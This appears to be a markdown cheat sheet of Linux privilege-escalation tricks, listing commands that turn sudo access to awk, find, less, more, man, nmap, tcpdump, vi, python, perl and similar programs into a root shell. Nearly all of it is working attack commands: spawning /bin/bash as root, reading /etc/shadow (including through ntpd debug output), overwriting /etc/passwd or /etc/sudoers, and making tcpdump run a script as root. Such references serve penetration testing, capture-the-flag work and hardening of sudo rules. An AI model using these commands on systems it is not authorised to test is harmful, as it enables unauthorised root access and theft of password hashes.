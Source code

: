 # Applications that can be used (when they have sudo access):

* See [GTFOBins](https://gtfobins.github.io/#+sudo)

* Then see below:

- `awk`
```sh
$ awk 'BEGIN {system("/bin/bash")}'
```

- `bash`

- `cp` copy and overwrite /etc/shadow or /etc/passwd
```
$ sudo cp /etc/passwd /var/www.html
$ openssl passwd -1 -salt hack pass123
```

- `find`
```sh
$ sudo find / -exec bash -i \;
$ sudo find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
$ sudo find /etc/passwd -exec /bin/sh \;
$ sudo find /bin -name nano -exec /bin/sh \;
```

- `ht`  
  The text/binary-editor HT. Edit `/etc/sudoers` as root, in HEX
```
(  A  L  L  )     A  L  L     #     A  A  A  A  A  ...
28 41 4c 4c 29 20 41 4c 4c 0a 23 20 41 41 41 41 41 ...
```

- `less`  
From less you can go into vi, and then into a shell.
```sh
$ sudo less /etc/shadow
# switch to vi
> vi
# open shell
> :shell
```
```sh
# from sudo:
# see man: ! signals start of the shell command.
$ sudo less /etc/shadow
<file name> !/bin/bash
```

- `more`  
You need to run more on a file that is bigger than your screen.  
```sh
$ sudo more /home/something/myfile
!/bin/bash
```
Or press *!sh* and hit enter

- `mv`  
Overwrite `/etc/shadow` or `/etc/sudoers`

- `man` Check for man pages, can run commands from man:

  ```sh
  $ sudo man ls
  [...]
  # inside the ENV file.  To set the ENV variable to some file, place the following line in your .profile of your
  [...]
  Manual page sh(1) line 1 (press h for help or q to quit): !/bin/sh

  # So once man opened, get the shell --> !/bin/sh
  ```

  **OR**

  ```sh
  $ sudo man man
  ````
  after that press `!sh` and hit enter

- `nano`, like any other editor can be abused when executed as a privileged user. A privileged user could add a user to `/etc/passwd`.

- `nc`

- `nmap`

  ```sh
  & sudo nmap --interactive
  nmap> !sh
  sh-4.1#

  # Without interactive which is not available in latest version
  echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
  ```

- `ntpd` "ntpd lets you specify a config file with -c and put it into debug mode with -d, if I specify /etc/shadow as the config and enable debug mode it will error on each line of /etc/shadow as its not a valid ntpd configuration, and helpfully show me the lines that it fails on - thus disclosing the contents of /etc/shadow"
```
$ /usr/sbin/ntpd -c /etc/shadow -d -d -d -d | grep T_String
```

- `python / perl / ruby / lua / etc`
```perl
$ sudo perl
exec "/bin/bash";
ctr-d
```  
```python
$ sudo python
import os
os.system("/bin/bash")
```
- `sh`

- `sudo`
  ```
  ...
  -rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
  ...

  $ sudo -i
  # whoami
  # root
  ```

- `tcpdump`
```sh
$ echo $'id\ncat /etc/shadow' > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

- `vi` / `vim`

  ```sh
  $ sudo vi
  :shell

  :set shell=/bin/bash:shell    
  :!bash
  ```
